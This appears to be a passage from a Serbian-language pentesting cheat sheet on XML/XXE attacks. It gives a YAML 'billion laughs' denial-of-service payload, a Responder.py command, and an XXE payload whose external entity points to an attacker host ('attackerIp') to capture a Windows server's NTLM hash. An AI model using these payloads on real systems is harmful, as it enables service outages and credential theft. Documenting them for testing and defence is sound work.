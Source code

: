 #### Yaml Napad

```xml
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```

#### Napad kvadratnog naduvavanja

![](<../.gitbook/assets/image (531).png>)

#### Dobijanje NTML-a

Na Windows hostovima moguće je dobiti NTML heš korisnika veb servera postavljanjem responder.py handler-a:

```bash
Responder.py -I eth0 -v
```

i slanjem sledećeg zahteva

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM 'file://///attackerIp//randomDir/random.jpg'> ]>
<data>&example;</data>
```

## Skriveni XXE površinski

### XInclude
